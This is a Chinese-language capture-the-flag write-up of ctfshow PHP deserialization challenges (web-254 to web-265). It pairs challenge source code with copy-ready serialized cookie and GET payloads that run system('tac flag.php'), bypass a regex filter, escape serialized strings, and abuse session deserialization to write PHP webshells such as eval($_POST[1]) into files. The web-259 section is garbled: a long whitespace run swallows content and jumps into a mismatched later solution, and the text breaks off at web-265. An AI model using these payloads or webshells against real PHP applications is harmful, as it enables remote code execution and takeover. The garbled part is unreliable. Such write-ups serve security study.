






# ctfshow-php反序列化

## web-254

先看题目：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        if($this->username===$u&&$this->password===$p){
            $this->isVip=true;
        }
        return $this->isVip;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = new ctfShowUser();
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

这道题目没什么，用不到反序列化，直接GET传参username和password的值与源码中一样即可

```
?username=xxxxxx&password=xxxxxx
```

---

## web-255

分析源码：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            echo "your flag is ".$flag;
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

这道题和上一题的不同就在与，它在赋值时会从cookie中获取user的值
这里是unserialize，所以只需要将cookie中user值改为new ctfShowUser();的内容即可,又因为只有$this->isVip是true才能是flag，所以反序列化的内容为

```
<?php
class ctfShowUser{
	public $isVip=true;
}
$a=new ctfShowUser();
echo urlencode(serialize($a));

注意这里需要先url编码
```

payload：

```
?username=xxxxxx&password=xxxxxx

hackbar
Cookie：user=O%3A11%3A%22ctfShowUser%22%3A1%3A%7Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```



在hackbar中使用cookie和get方法传值即可拿到flag

---

## web-256

首先看题目：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 19:29:02
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);
include('flag.php');

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;

    public function checkVip(){
        return $this->isVip;
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function vipOneKeyGetFlag(){
        if($this->isVip){
            global $flag;
            if($this->username!==$this->password){
                    echo "your flag is ".$flag;
              }
        }else{
            echo "no vip, no flag";
        }
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);    
    if($user->login($username,$password)){
        if($user->checkVip()){
            $user->vipOneKeyGetFlag();
        }
    }else{
        echo "no vip,no flag";
    }
}
```

这道题和上一题不同的是多了一个判断，即username!=password，所以只要get方法传值的时候让username和password不等即可
所以构造代码

```
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='123';
    public $isVip=true;
}
$a = serialize(new ctfShowUser());
echo urlencode($a);
?>
```

payload：

```
?username=xxxxxx&password=123

hackbar：
Cookie：user=O%3A11%3A%22ctfShowUser%22%3A3%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A3%3A%22123%22%3Bs%3A5%3A%22isVip%22%3Bb%3A1%3B%7D
```



---

## web-257

源码分析：

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 20:33:07
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    private $username='xxxxxx';
    private $password='xxxxxx';
    private $isVip=false;
    private $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    $user = unserialize($_COOKIE['user']);
    $user->login($username,$password);
}
```

这道题用了魔术变量__construct和__destruct

__construct 是 PHP 中的一个特殊方法，也被称为构造函数。它用于在创建对象时初始化对象的属性或执行其他必要的设置操作。

当你使用 new 关键字创建一个对象时，PHP 会自动调用该类的构造函数。构造函数没有返回值（也不应该有返回值），并且其名称总是 __construct

__destruct` 是 PHP 中的一个魔术方法（magic method），也被称为析构函数。当对象不再被引用或者脚本执行完毕时，PHP 会自动调用这个析构函数来执行一些清理操作。

析构函数主要用于执行一些清理任务，比如关闭数据库连接、释放文件句柄、释放锁等。当对象被销毁时，析构函数会自动被调用，因此不需要显式地调用它。

所以构造代码：

```
<?php

class ctfShowUser{
    private $username='a';
    private $password='b';
    private $isVip=false;
    private $class = 'backDoor';

    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    private $user='a';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    private $code='system("tac flag.php");';
    public function getInfo(){
        eval($this->code);
    }
}

$a=new ctfShowUser();
echo urlencode(serialize($a));
```

payload：

```
?username=a&password=b

Cookie：user=O%3A11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A21%3A%22%00ctfShowUser%00username%22%3Bs%3A1%3A%22a%22%3Bs%3A21%3A%22%00ctfShowUser%00password%22%3Bs%3A1%3A%22b%22%3Bs%3A18%3A%22%00ctfShowUser%00isVip%22%3Bb%3A0%3Bs%3A18%3A%22%00ctfShowUser%00class%22%3BO%3A8%3A%22backDoor%22%3A1%3A%7Bs%3A14%3A%22%00backDoor%00code%22%3Bs%3A23%3A%22system%28%22tac+flag.php%22%29%3B%22%3B%7D%7D
```



---

## web-258 php反序列化/`[oc]:\d+:/i正则绕过

先看题目

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-02 17:44:47
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-02 21:38:56
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/

error_reporting(0);
highlight_file(__FILE__);

class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'info';

    public function __construct(){
        $this->class=new info();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }

}

class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}

class backDoor{
    public $code;
    public function getInfo(){
        eval($this->code);
    }
}

$username=$_GET['username'];
$password=$_GET['password'];

if(isset($username) && isset($password)){
    if(!preg_match('/[oc]:\d+:/i', $_COOKIE['user'])){
        $user = unserialize($_COOKIE['user']);
    }
    $user->login($username,$password);
}
```

这题和上题差不多，就是多了个正则匹配

```
/`[oc]:\d+:/i意思就是不能出现O:数字，我们用0:+数字即可绕过。
` [oc]: 就是正则匹配的意思 \d: 匹配一个数字字符。等价于 [0-9]。
+: 匹配前面的子表达式一次或多次。
例如，'zo+' 能匹配 "zo" 以及 "zoo"，但不能匹配 "z"。+ 等价于 {1,}。
/i: 表示匹配的时候不区分大小写
```

所以可以构造

```
<?php
class ctfShowUser{
    public $username='xxxxxx';
    public $password='xxxxxx';
    public $isVip=false;
    public $class = 'backDoor';
 
    public function __construct(){
        $this->class=new backDoor();
    }
    public function login($u,$p){
        return $this->username===$u&&$this->password===$p;
    }
    public function __destruct(){
        $this->class->getInfo();
    }
}
class info{
    public $user='xxxxxx';
    public function getInfo(){
        return $this->user;
    }
}
 
class backDoor{
    public $code="system('tac f*');";
    public function getInfo(){
        eval($this->code);
    }
}
echo serialize(new ctfShowUser);
?>
```

然后会输出O:11:"ctfShowUser":4:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:0;s:5:"class";O:8:"backDoor":1:{s:4:"code";s:17:"system('tac f*');";}}

然后我们修饰一下，使用0:+数字绕过

O:+11:"ctfShowUser":4:{s:8:"username";s:6:"xxxxxx";s:8:"password";s:6:"xxxxxx";s:5:"isVip";b:0;s:5:"class";O:+8:"backDoor":1:{s:4:"code";s:17:"system('tac f*');";}}

然后再进行url编码

O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A0%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A17%3A%22system('tac%20f*')%3B%22%3B%7D%7D

payload：

```
?username=xxxxxx&password=xxxxxx

Cookie：user=O%3A%2B11%3A%22ctfShowUser%22%3A4%3A%7Bs%3A8%3A%22username%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A8%3A%22password%22%3Bs%3A6%3A%22xxxxxx%22%3Bs%3A5%3A%22isVip%22%3Bb%3A0%3Bs%3A5%3A%22class%22%3BO%3A%2B8%3A%22backDoor%22%3A1%3A%7Bs%3A4%3A%22code%22%3Bs%3A17%3A%22system('tac%20f*')%3B%22%3B%7D%7D
```



---

## web-259 原生类SoapClient

先看题目

提示：

```
flag.php

$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
	die('error');
}else{
	$token = $_POST['token'];
	if($token=='ctfshow'){
		file_put_contents('flag.txt',$flag);
	}
}

```

题目：

```
<?php

                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                                        ?>`，877.php=0x36d（877）是成立的（弱类型比较。利用__construct函数把username和password写进去。直接在类中赋值也可以，一样的

```
<?php
                                                                                                                                                                                                                           ?>');
echo serialize($a);
```

O:10:"ctfshowvip":2:{s:8:"username";s:7:"877.php";s:8:"password";s:24:"<?php eval($_POST[1]);?>";}

payload：

```
?vip=O:10:"ctfshowvip":2:{s:8:"username";s:7:"877.php";s:8:"password";s:24:"<?php eval($_POST[1]);?>";}
```

测试一下

访问877.php然后post传入1=phpinfo();

成功执行



---

## web-262 字符串增多逃逸

首先先看源码

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 02:37:19
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 16:05:38
# @message.php
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/


error_reporting(0);
class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

$f = $_GET['f'];
$m = $_GET['m'];
$t = $_GET['t'];

if(isset($f) && isset($m) && isset($t)){
    $msg = new message($f,$m,$t);
    $umsg = str_replace('fuck', 'loveU', serialize($msg));
    setcookie('msg',base64_encode($umsg));
    echo 'Your message has been sent';
}

highlight_file(__FILE__);
```

没发现跟flag有关的东西，

但是看到前面有个message.php，访问一下它

```
<?php

/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-12-03 15:13:03
# @Last Modified by:   h1xa
# @Last Modified time: 2020-12-03 15:17:17
# @email: h1xa@ctfer.com
# @link: https://ctfer.com

*/
highlight_file(__FILE__);
include('flag.php');

class message{
    public $from;
    public $msg;
    public $to;
    public $token='user';
    public function __construct($f,$m,$t){
        $this->from = $f;
        $this->msg = $m;
        $this->to = $t;
    }
}

if(isset($_COOKIE['msg'])){
    $msg = unserialize(base64_decode($_COOKIE['msg']));
    if($msg->token=='admin'){
        echo $flag;
    }
}
```

可以看到输出 flag 的条件是 **$msg->token==’admin’** ，也就是说，我们要将 token 进行修改

先构造

```
<?php 
class message{
    public $from='d';
    public $msg='m';
    public $to='1';
    public $token='user';
    }
$msg= serialize(new message);
echo $msg;
```

结果：O:7:"message":4:{s:4:"from";s:1:"d";s:3:"msg";s:1:"m";s:2:"to";s:1:"1";s:5:"token";s:4:"user";}

我们可以利用$to这个变量，利用PHP反序列化的特点，将后面的s:5:"token";s:4:"user"分隔开，然后将s:5:"token":s:5:"admin";放进去，所以我们进行构造，注意闭合

//`";s:5:"token";s:5:"admin";}` 这一共**27**个字符长度就是我们需要插入的字符串

```
<?php 
class message{
    public $from='d';
    public $msg='m';
    public $to='1";s:5:"token";s:5:"admin";}';
    public $token='user';
    }
$msg= serialize(new message);
echo $msg;
```

结果：O:7:"message":4:{s:4:"from";s:1:"d";s:3:"msg";s:1:"m";s:2:"to";s:28:"1";s:5:"token";s:5:"admin";}";s:5:"token";s:4:"user";}

但是这里不能直接用，因为长度出错了s:28:"1";s:5:"token";s:5:"admin";}"

**如果为28则会匹配后面28个字符，这样闭合就没有效果。**

这时候我们就可以用前面的`str_replace('fuck', 'loveU', serialize($msg));`语句

利用`loveU`替换`fuck`补充这27的差值，一个fuck比一个loveU多一个长度，27个fuck就会多出27个长度

后面多出27个字符，所以我们写27个fuck，替换为loveU后，增加了27个字符，来达到字符串逃逸

```
<?php 
class message{
    public $from='d';
    public $msg='m';
    public $to='1fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}';
    public $token='user';
    }
$msg= serialize(new message);
echo $msg;
```

最后构造payload：

```
?f=1&m=2&t=1fuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuckfuck";s:5:"token";s:5:"admin";}
```

然后访问再访问message.php即可



---

## web-263 session反序列化漏洞

本题考查session反序列话漏洞
相关讲解https://www.jb51.net/article/116246.htm

我们登录进去只有一个登录页面和check.php

用dirsearch扫一下，发现www.zip文件，访问下载下来是网站源码。

index.php

```
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 16:28:37
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-06 19:21:45
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
	error_reporting(0);
	session_start();
	//超过5次禁止登陆
	if(isset($_SESSION['limit'])){
		$_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
	}else{
		 setcookie("limit",base64_encode('1'));
		 $_SESSION['limit']= 1;
	}
	
?>
 
 
<!DOCTYPE html>
<html>
<head>
	<meta charset="UTF-8">
	<meta http-equiv="X-UA-Compatible" content="IE=edge">
	<meta name="viewport" content="initial-scale=1,maximum-scale=1, minimum-scale=1">
	<meta name="viewport" content="width=device-width, initial-scale=1">
	<meta name="apple-mobile-web-app-capable" content="yes">
	<meta name="viewport" content="width=device-width, initial-scale=1.0, minimum-scale=1.0, maximum-scale=1.0, user-scalable=no">
	<title>ctfshow登陆</title>
	<link href="css/style.css" rel="stylesheet">
</head>
<body>
 
	<div class="pc-kk-form">
		<center><h1>CTFshow 登陆</h1></center><br><br>
		<form action="" onsubmit="return false;">
			<div class="pc-kk-form-list">
				<input id="u" type="text" placeholder="用户名">
			</div>
			<div class="pc-kk-form-list">
				<input id="pass" type="password" placeholder="密码">
			</div>
			
			<div class="pc-kk-form-btn">
				<button onclick="check();">登陆</button>
			</div>
		</form>
	</div>
	<script type="text/javascript" src="js/jquery.min.js"></script>
	<script>
		function check(){
			$.ajax({
			url:'check.php',
			type: 'GET',
			data:{
				'u':$('#u').val(),
				'pass':$('#pass').val()
			},
			success:function(data){
				alert(JSON.parse(data).msg);
			},
			error:function(data){
				alert(JSON.parse(data).msg);
			}
 
		});
		}
 
 
	</script>
 
</body>
</html>
```

---

check.php

```
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
# @Date:   2020-09-03 16:59:10
# @Last Modified by:   h1xa
# @Last Modified time: 2020-09-06 19:15:38
# @email: h1xa@ctfer.com
# @link: https://ctfer.com
*/
 
error_reporting(0);
require_once 'inc/inc.php';
$GET = array("u"=>$_GET['u'],"pass"=>$_GET['pass']);
 
 
if($GET){
 
	$data= $db->get('admin',
	[	'id',
		'UserName0'
	],[
		"AND"=>[
		"UserName0[=]"=>$GET['u'],
		"PassWord1[=]"=>$GET['pass'] //密码必须为128位大小写字母+数字+特殊符号，防止爆破
		]
	]);
	if($data['id']){
		//登陆成功取消次数累计
		$_SESSION['limit']= 0;
		echo json_encode(array("success","msg"=>"欢迎您".$data['UserName0']));
	}else{
		//登陆失败累计次数加1
		$_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit'])+1);
		echo json_encode(array("error","msg"=>"登陆失败"));
	}
}
```

---

inc.php

```
<?php
error_reporting(0);
ini_set('display_errors', 0);
ini_set('session.serialize_handler', 'php');
date_default_timezone_set("Asia/Shanghai");
session_start();
use \CTFSHOW\CTFSHOW; 
require_once 'CTFSHOW.php';
$db = new CTFSHOW([
    'database_type' => 'mysql',
    'database_name' => 'web',
    'server' => 'localhost',
    'username' => 'root',
    'password' => 'root',
    'charset' => 'utf8',
    'port' => 3306,
    'prefix' => '',
    'option' => [
        PDO::ATTR_CASE => PDO::CASE_NATURAL
    ]
]);
 
// sql注入检查
function checkForm($str){
    if(!isset($str)){
        return true;
    }else{
    return preg_match("/select|update|drop|union|and|or|ascii|if|sys|substr|sleep|from|where|0x|hex|bin|char|file|ord|limit|by|\`|\~|\!|\@|\#|\\$|\%|\^|\\|\&|\*|\(|\)|\（|\）|\+|\=|\[|\]|\;|\:|\'|\"|\<|\,|\>|\?/i",$str);
    }
}
 
 
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
    function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
}
 
/*生成唯一标志
*标准的UUID格式为：xxxxxxxx-xxxx-xxxx-xxxxxx-xxxxxxxxxx(8-4-4-4-12)
*/
 
function  uuid()  
{  
    $chars = md5(uniqid(mt_rand(), true));  
    $uuid = substr ( $chars, 0, 8 ) . '-'
            . substr ( $chars, 8, 4 ) . '-' 
            . substr ( $chars, 12, 4 ) . '-'
            . substr ( $chars, 16, 4 ) . '-'
            . substr ( $chars, 20, 12 );  
    return $uuid ;  
}  
```

代码审计：

```
代码审计后主要有几个关键区域。

在index.php 我们发现$_SESSION['limit']我们可以进行控制

//超过5次禁止登陆
if(isset($_SESSION['limit'])){
  $_SESSION['limti']>5?die("登陆失败次数超过限制"):$_SESSION['limit']=base64_decode($_COOKIE['limit']);
  $_COOKIE['limit'] = base64_encode(base64_decode($_COOKIE['limit']) +1);
}else{
   setcookie("limit",base64_encode('1'));
   $_SESSION['limit']= 1;
}
flag在flag.php处，目测需要rce

$flag="flag_here";
inc.php 设置了session的序列化引擎为php，很有可能说明默认使用的是php_serialize

ini_set('session.serialize_handler', 'php');
并且inc.php中有一个User类的__destruct含有file_put_contents函数，并且username和password可控，可以进行文件包含geshell

   function __destruct(){
        file_put_contents("log-".$this->username, "使用".$this->password."登陆".($this->status?"成功":"失败")."----".date_create()->format('Y-m-d H:i:s'));
    }
```

构造链子：

```
<?php
class User{
    public $username;
    public $password;
    public $status;
    function __construct($username,$password){
        $this->username = $username;
        $this->password = $password;
    }
    function setStatus($s){
        $this->status=$s;
    }
}
$user = new User('1.php','<?php eval($_POST[1]);phpinfo();?>');
echo serialize($user);
echo("\n");
echo base64_encode('|'.serialize($user));
 
output：
O:4:"User":3:{s:8:"username";s:5:"1.php";s:8:"password";s:34:"<?php eval($_POST[1]);phpinfo();?>";s:6:"status";N;}
 
fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czozNDoiPD9waHAgZXZhbCgkX1BPU1RbMV0pO3BocGluZm8oKTs/PiI7czo2OiJzdGF0dXMiO047fQ==

```

具体实操：

先访问index.php,修改limit的cookie为

fE86NDoiVXNlciI6Mzp7czo4OiJ1c2VybmFtZSI7czo1OiIxLnBocCI7czo4OiJwYXNzd29yZCI7czozNDoiPD9waHAgZXZhbCgkX1BPU1RbMV0pO3BocGluZm8oKTs/PiI7czo2OiJzdGF0dXMiO047fQ==


写进去之后，访问check.php?u=123&pass=123


最后访问log-1.php,成功rce

```
post；
1=system('tac f*.php');
web264
```

---

## web-264

同262

---

## web-265 &引用

首先看源码

```
<?php
 
/*
# -*- coding: utf-8 -*-
# @Author: h1xa
